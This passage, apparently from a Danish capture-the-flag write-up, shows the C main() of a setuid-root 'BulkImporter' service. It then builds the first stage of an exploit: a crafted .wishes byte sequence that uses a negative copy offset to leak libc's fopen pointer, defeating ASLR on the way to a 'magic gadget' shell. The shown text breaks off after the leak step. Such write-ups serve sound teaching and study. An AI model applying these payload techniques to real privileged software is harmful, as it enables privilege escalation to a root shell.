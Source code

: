 ```C


int main(int argc, char** argv)
{
	printf("| BulkImporter af ønsker - Copyright (c) 2020 Nisseværkstedet    |\n");
	printf("\\----------------------------------------------------------------/\n");

	if (setuid(0) != 0)
	{
		return 1;
	}

	g_p_fopen = &fopen;
	g_pp_fopen = &g_p_fopen;
	g_ppp_fopen = &g_pp_fopen;

	for (;;)
	{
		Loop();

		std::this_thread::sleep_for(std::chrono::seconds(10));
	}

	return 0;
}
```

Det ses at målet er at eksekvere "magic gadget" som er én enkel adresse i LIBC, der spawner en shell.

Først kan vi lave en .wishes fil, der leaker pointeren til fopen, som jo er en del af LIBC, hvor magic gadget jo også er. Vi har brug for denne adresse da programmet jo kører med ALSR, og Magic Gadget er derfor tilfældig hver gang, vi starter programmet.

```text
02 2B 63 79 6B 65 6C 26 F5 FF FF FF 05

==>

eCHUNKID_ADD_WISH_OBJ
02

eCHUNKID_ADD_WISH med 5 chars:
2B | 63 79 6B 65 6C (cykel)

eCHUNKID_COPY_WISH
0x26 = 6 | 4

-11 == F5 FF FF FF

eCHUNKID_WRITE_WISH_TO_FILE	<-- Brug til at leake pointer
5
```
